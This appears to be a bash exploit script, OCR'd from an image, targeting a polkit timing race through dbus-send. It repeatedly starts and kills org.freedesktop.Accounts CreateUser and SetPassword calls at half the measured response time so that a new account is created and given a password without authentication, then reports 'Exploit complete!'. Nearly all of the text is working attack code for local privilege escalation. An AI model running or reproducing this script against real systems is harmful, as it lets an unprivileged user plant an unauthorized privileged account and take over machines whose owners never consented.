         # Validate user is running in SSH instead of desktop terminal
        if [[ -z $SSH_CLIENT || -z $SSH_TTY ]]; then
        echo "[!] WARNING: SSH into localhost first before running this script in order to avoid authentication prompts"
        exit
        fi

        # Test the dbus-send timing to load into exploit
        echo "[*] Determining dbus-send timing"
        realTime=$( TIMEFORMAT="%R"; { time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:$userName string:$realName int32:$accountType ; } 2>&1 | cut -d " " -f6 )
        halfTime=$(echo "scale=3;$realTime/2" | bc)

        # Check for user first in case previous run of script failed on password set
        if id "$userName" &>/dev/null; then
        userid=$(id -u $userName)
        echo "[*] New user $userName already exists with uid of $userid"
        else
        userid=""
        echo "[*] Attempting to create account"
        while [[ $userid == "" ]]
        do
        dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:$userName string:$realName int32:$accountType 2>/dev/null & sleep $halfTime ; kill $! 2>/dev/null
        if id "$userName" &>/dev/null; then
        userid=$(id -u $userName)
        echo "[*] New user $userName created with uid of $userid"
        fi
        done
        fi

        # Add the password to /etc/shadow
        # Sleep added to ensure there is enough of a delay between timestamp checks
        echo "[*] Adding password to /etc/shadow and enabling user"
        sleep 1
        currentTimestamp=$(stat -c %Z /etc/shadow)
        fileChanged="n"
        while [ $fileChanged == "n" ]
        do
        dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User$userid org.freedesktop.Accounts.User.SetPassword string:$password string:$passHint 2>/dev/null & sleep $halfTime ; kill $! 2>/dev/null
        if [ $(stat -c %Z /etc/shadow) -ne $currentTimestamp ];then
        fileChanged="y"
        echo "[*] Exploit complete!"
        fi
        done

